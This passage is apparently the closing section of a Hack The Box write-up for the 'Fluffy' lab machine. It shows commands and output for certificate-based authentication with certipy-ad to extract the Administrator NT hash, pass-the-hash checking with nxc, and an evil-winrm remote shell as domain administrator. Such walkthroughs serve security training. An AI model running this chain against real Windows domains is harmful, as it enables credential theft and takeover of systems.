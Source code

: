 **Step 6: Authenticate as the target administrator.**

```
fcoomans@kali:~/htb/fluffy$ certipy-ad auth -dc-ip '10.10.11.69' -pfx 'administrator.pfx' -username 'administrator' -domain 'fluffy.htb'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@fluffy.htb'
[*] Using principal: 'administrator@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e
```

`nxc` confirmed that the `Administrator` NTLM hash was valid.

```
fcoomans@kali:~/htb/fluffy$ nxc smb dc01.fluffy.htb -u Administrator -H aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e
SMB         10.10.11.69     445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.69     445    DC01             [+] fluffy.htb\Administrator:8da83a3fa618b6e3a00e93f676c92a6e (Pwn3d!)
```

`evil-winrm` was used to connect to the server as the `Administrator` user.

```
fcoomans@kali:~/htb/fluffy$ evil-winrm -i dc01.fluffy.htb -u 'administrator@fluffy.htb' -H '8da83a3fa618b6e3a00e93f676c92a6e'

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
fluffy\administrator
```

### 💰 Post Exploitation

#### 🏆 root.txt

The Administrator user holds the `root.txt` flag.
